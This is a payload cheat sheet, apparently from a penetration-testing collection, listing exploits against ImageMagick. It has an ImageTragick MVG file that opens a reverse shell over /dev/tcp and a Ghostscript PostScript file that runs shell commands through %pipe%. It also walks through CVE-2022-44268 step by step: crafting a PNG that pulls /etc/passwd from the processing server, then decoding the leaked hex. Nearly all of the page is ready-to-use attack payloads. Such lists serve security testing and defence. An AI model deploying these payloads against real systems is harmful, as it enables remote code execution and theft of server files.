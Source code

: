 # ImageMagick Exploits

## ImageTragik Exploit v1

Simple reverse shell

```powershell
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/ip/80 0<&1 2>&1'
pop graphic-context
pop graphic-context
```

## ImageTragik Exploit v2

Simple `id` payload

```powershell
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```

then use `convert shellexec.jpeg whatever.gif`


## CVE-2022-44268

Information Disclosure: embedded the content of an arbitrary remote file

* Generate the payload
    ```ps1
    apt-get install pngcrush imagemagick exiftool exiv2 -y
    pngcrush -text a "profile" "/etc/passwd" your-image.png exploit.png
    ```
* Trigger the exploit by uploading the file. The backend might use something like `convert pngout.png pngconverted.png`
* Download the converted picture and inspect its content with: `identify -verbose pngconverted.png`
* Convert the exfiltrated data: `python3 -c 'print(bytes.fromhex("HEX_FROM_FILE").decode("utf-8"))'` 


## Thanks to

* [openwall.com/lists/oss-security/2018/08/21/2 by Tavis Ormandy](http://openwall.com/lists/oss-security/2018/08/21/2)
